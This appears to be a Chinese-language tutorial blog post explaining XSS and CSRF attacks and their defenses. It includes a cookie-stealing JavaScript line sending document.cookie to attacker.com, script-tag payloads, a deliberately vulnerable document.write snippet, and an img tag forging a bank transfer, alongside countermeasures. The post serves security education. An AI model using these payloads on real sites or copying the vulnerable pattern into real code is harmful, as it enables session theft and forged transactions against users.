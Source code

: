 ```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

## 解决方案

- 过滤一些关键字
- Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；设置 http-only（不能用 js 脚本进行获取）

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造

- 顾名思义是伪造请求冒充用户在站内的正常操作。
- 我们知道绝大多数网站是通过 cookie 等方式辨识用户身份（包括服务器端 session 的网站，因为 session id 大多也是保存在 cookie），再予以授权。
- 所以要伪造用户的正常操作，最好是通过 xss 或者链接欺骗等途径，让用户再本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求（xss 是实现 csrf 的手段之一）

## 案例

- 一论坛网站的发帖是通过 get 请求访问，点击发帖之后 js 把发帖内容拼接成目标 url 并访问：http://example.com/bbs/create_post.php?title=标题&content=内容
- 那么我在论坛发一贴http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈，只要有用户看到这个链接，那么他们的账户就会在不知情的情况下发布了这一个帖子。
- 如果一家银行用以执行转账操作的 url 为 http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName，那么黑客可以可以再另一个网站上放置如下代码：<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
- 如果有账户名为 alice 的用户访问了恶意站点，而她之前也刚访问过银行不久，登陆信息尚未过期，那么她就会损失 1000 元

## 解决方案

- 如何解决这个问题，过滤用户输入，不允许发布这种含有站内操作 url 的链接，这么做可能有点用，但是阻挡不了 csrf，因为攻击者可以通过 qq 发布这个链接，这样点击到这个链接的用户一样会中招。

- 所以对待 csrf，我们的视角需要和对待 xss 有所不同。csrf 不一定要有站内的输入，因为他不属于注入攻击，而是属于请求伪造。被伪造的请求可以是任何来源，而非一定是站内。

- 过滤请求的处理者
  - 检查 Referer 字段：可以检查是否来源于该域名（但是请求者是可以更改 http 请求头的，他可以给这个任何值）
  - 添加校验 token：也就是请求令牌，由于 csrf 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求再访问敏感数据请求的时候，要求用户浏览器提供不保存在 cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法执行 csrf 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求的时候，这个伪乱数也一并提交上去校验。
- 改良站内 api 的设计，对于发布帖子这类创建资源的操作，应该只接受 post 请求，而 get 请求应该只浏览。最好是采用 RESTFUL 风格设计。

# 推荐阅读

- [总结 xss 与 csrf 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
